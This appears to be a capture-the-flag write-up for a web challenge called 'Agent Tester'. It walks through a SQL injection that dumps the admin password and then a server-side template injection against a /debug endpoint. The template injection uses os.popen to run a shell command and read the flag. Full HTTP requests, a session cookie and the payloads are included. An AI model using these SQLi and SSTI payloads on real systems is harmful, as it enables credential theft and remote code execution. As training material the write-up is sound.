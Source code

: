 # Agent Tester

Tags: _sqlite3_ _sqli_ _SSTI_ _template_

## Challenge
>Author: @jorgectf#3896
>
>We've recently hired an entry-level web developer to build an internal system to test User Agents, let us know if you find any errors!
>
>Download the files below and press the Start button on the top-right to begin this challenge.
>
>Attachments:  agenttester.zip



## Solving

### Create new “test” account, logged in and perform SQLi to retreive admin credential
```
' union select username,password from user where username="admin" --
```
![sqli](sqli.png)


Admin credential:

![admin_credential](admin_credential.png)
```
admin:*)(@skdnaj238374834**__**=
```

### Source code analysis 

run.sh:

![run_sh](run_sh.png)

app.py

![app_py](app_py.png)
```
/debug only available when connected as admin
```


### Test /debug

simple query:
```
POST /debug HTTP/1.1
Host: challenge.nahamcon.com:31507
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://challenge.nahamcon.com:31507
Connection: keep-alive, Upgrade
Cookie: auth=eyJpZCI6MX0.YFI5uA.0ELzFT74EL6t2jVIdU_7u-9cdkM
Content-Length: 9
Content-Type: application/x-www-form-urlencoded
```
response:
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 17 Mar 2021 17:18:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 19
Connection: keep-alive
Vary: Cookie

<h1>Safe Debug</h1>
```

query with code variable:
```
POST /debug HTTP/1.1
Host: challenge.nahamcon.com:31507
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://challenge.nahamcon.com:31507
Connection: keep-alive, Upgrade
Cookie: auth=eyJpZCI6MX0.YFI5uA.0ELzFT74EL6t2jVIdU_7u-9cdkM
Content-Length: 9
Content-Type: application/x-www-form-urlencoded

code=flag
```

response:
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 17 Mar 2021 17:26:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 4
Connection: keep-alive
Vary: Cookie

flag
```

### Exploit /debug with SSTI (Server Side Template Injection)

query:
```
POST /debug HTTP/1.1
Host: challenge.nahamcon.com:31507
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://challenge.nahamcon.com:31507
Connection: keep-alive, Upgrade
Cookie: auth=eyJpZCI6MX0.YFI5uA.0ELzFT74EL6t2jVIdU_7u-9cdkM
Content-Length: 109
Content-Type: application/x-www-form-urlencoded

code={{request.application.__globals__.__builtins__.__import__('os').popen('echo $CHALLENGE_FLAG').read()}}
```

resonse:
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 17 Mar 2021 17:31:32 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Vary: Cookie
Content-Length: 39

flag{fb4a87cfa85cf8c5ab2effedb4ea7006}
```

`flag{fb4a87cfa85cf8c5ab2effedb4ea7006}`


### Informations
https://hackmd.io/@Chivato/HyWsJ31dI

